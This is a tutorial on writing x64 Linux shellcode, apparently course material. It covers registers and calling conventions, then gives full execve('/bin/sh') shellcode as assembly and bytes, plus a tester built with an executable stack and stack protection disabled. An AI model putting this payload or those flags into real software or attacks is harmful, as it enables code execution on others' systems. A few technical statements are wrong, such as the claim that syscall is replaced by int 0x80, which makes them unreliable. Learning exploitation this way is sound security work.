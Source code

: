 :orphan:
(linux-exploitation-x64-shellcode)=

# Linux Exploitation: x64 shellcode

Let's try to write a `64-bit` Linux shellcode.

Before we can do that, let's lay the groundwork for the distinctions between the `x86` and `x64` architectures.

## x64 Architecture

The `64-bit` architecture is the result of hardware advancements to which software had to adapt.

The `32-bit` architecture provides registers and addresses with a size of `32 bits` (`4 bytes`).
In this manner, the address space is constrained by the `8-bit` value.

The amount of memory accessible with `64-bit` is significantly greater. As `64-bits` are equivalent to `8 bytes`, all registers and addresses on a `64-bit` architecture are double the size.

In addition, the number of registers in `64-bit` processors has grown.

As they are also larger, they have been given a new naming convention; their names all begin with `"R"`

Thus, in place of `EAX`, `EBX`, and `ECX`, there are `RAX`, `RBX`, and `RCX`. They are all `64 bits` (`8 bytes`) wide.

The individual sections of a register are directly accessible. On `64-bit` architectures, you can refer to `EAX` of `RAX` in the same way that you could access `AH` or `AX` of `EAX` on `32-bit` architectures.

In addition, a number of new general-purpose registers were added to facilitate more complex operations.

In x64, the following registers exist:

```nasm
rax ; register a extended
rbx ; register b extended
rcx ; register c extended
rdx ; register d extended
rbp ; register base pointer
rsp ; register stack pointer
rsi ; register source index
rdi ; register destination index
```

And the new registers are:

```nasm
r8 ; register 8
r9 ; register 9
r10 ; register 10
r11 ; register 11
r12 ; register 12
r13 ; register 13
r14 ; register 14
r15 ; register 15
```

The existence of new registers also influences the manner in which functions are called. No additional arguments are added to the stack.

Instead, the first six arguments are passed to a function as follows:

- `rdi, rsi, rdx, rcx, r8d, r9d`
- The remainder of the arguments are passed through the stack.

From the perspective of exploit development, all these changes present a new obstacle:

- A vast address space makes brute-force attacks difficult, if not impossible.

- As function arguments are not taken from the stack, `Ret2Libc` and similar attacks are limited. Before calling a function, the attacker must execute code that loads the parameters into the appropriate registers.

When dealing with buffer overflows on `x64` systems, you may also encounter instances in which the mapped address space is constrained by a `6-byte` hex number. This indicates that you cannot overwrite the `EIP` with `0x4141414142424242`.

The only address available will be `0x0000414243444546`, so exploit buffers must terminate after overwriting the `EIP`.

Exploiting `64-bit` systems is commonly associated with Return Oriented Programming and is regarded as a complex topic. In [this course](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html), you will practice exploitation techniques against both insecure and secure `x64` Linux systems.

While `x64` itself is difficult to exploit, `x64` shellcoding is significantly simpler.

## Writing x64 shellcode

On a 64-bit platform, we will continue to use `nasm`, `gcc`, and `binutils` to build shellcode:

```bash
sudo apt-get install nasm binutils gcc
```

Additionally, we will utilize the same shellcode tester application:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\x48\x31\xd2\x52....";

int main() {
    printf("shellcode length: %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

This time, we will create `64-bit` Assembly code.

Note that `32-bit` applications can run on `64-bit` systems, but `64-bit` applications cannot run on `32-bit` systems.

A bash-spawning shellcode's Assembly code will be comparable to the `32-bit` version. We will use the `execve` system call that begins a process, place its arguments in the appropriate registers, and then execute the `syscall` instruction (on `x64`, this is replaced by the `0x80` instruction).

First, we will start with the proper syscall. For `execve` on `x64`, it is `59`:

```bash
vim /usr/include/x86_64-linux-gnu/asm/unistd_64.h
```

![asm](images/linux-exploitation-04.png)

On `x64`, the arguments did not change. Still, the first argument is the program to be executed, the second is the program's arguments, and the third is the program's environment variables.

As with `32-bit` shellcode, we need only point the first argument to `"/bin/bash"` and leave the remaining two arguments blank (`NULL`).

Before executing the syscall, the syscall number must be placed in `RAX`, while `RDI`, `RSI`, and `RDX` contain the arguments to execute.

Therefore, `RDI` will contain a pointer to `"/bin/sh"` and `RSI` will contain a pointer to an array of strings (arguments).

In this instance, we will not pass any arguments or environment variables to the program we wish to launch, so the only element of that array will be a nested pointer to the `/bin/sh` address (pointer to pointer).

`RDX`, the final argument, can be null.

Let's begin writing Assembly code. You will notice that it differs little from the `x86` version:

```nasm
section .text
  global _start               ; we inform the system where the program begins

_start:
  xor rdx, rdx                ; zero out rdx
  push rdx                    ; push it onto the stack
  mov rax, 0x68732f2f6e69622f ; we can push „hs//nib/” as one value, after all it is 64-bit
  push rax                    ; we push it onto the stack, so it lands at some address on the stack
  mov rdi, rsp                ; that address is where esp points to, so we store it in rdi => pointer to „/bin/sh”
  push rdx                    ; we push 0, as it will be the null termination of the array
push rdi                      ; the address of „/bin/sh” is pushed onto the stack, it lands under another stack address
mov rsi, rsp                  ; we store that address into rsi. So rsi contains a pointer to a pointer to „/bin/sh”
xor rax, rax                  ; zero out eax to keep it clean
mov al, 0x3b                  ; 59 DEC, we move it to the lowest eax part to avoid nulls.
syscall                       ; all arguments are set up, syscall time
```

Compilation is similar to what we did for `x86`, with the exception that we will instruct the compiler to generate an `x64` executable:

```bash
nasm -f elf64 -o shellcode.o shellcode.asm
ld -m elf_x86_64 -s -o shellcode shellcode.o
```

![asm](images/linux-exploitation-11.png)

Let's extract the opcodes from the executable using the `extractor.sh` script:

```bash
#!/bin/bash
if [ -z "$1" ]
then
    echo "Usage: $0 <path to executable>"
    exit
fi

objdump -d $1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

or just command:

```bash
objdump -d ./shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

![a](images/linux-exploitation-15.png)

Then, we will copy and paste them into the shellcode tester application. Here is the complete shellcode tester program's source code:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05";

int main() {
    printf("shellcode length: %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

Now, we compile it to test whether the shellcode works:

```bash
gcc -m64 -z execstack -fno-stack-protector -o run run.c
```

![a](images/linux-exploitation-18.png)

Then, run:

```bash
./run
```

![asmfinal](images/linux-exploitation-23.png)

As you can see, shellcoding in `x86` and `x64` is comparable. However, the Assembly code must be modified according to the rules enforced by the underlying architecture.

It boils down to calling the appropriate syscalls and setting their arguments in the correct order.

[x64 syscalls](https://x64.syscall.sh/)

[x86 syscalls](https://x86.syscall.sh/)

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html) In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.
:::
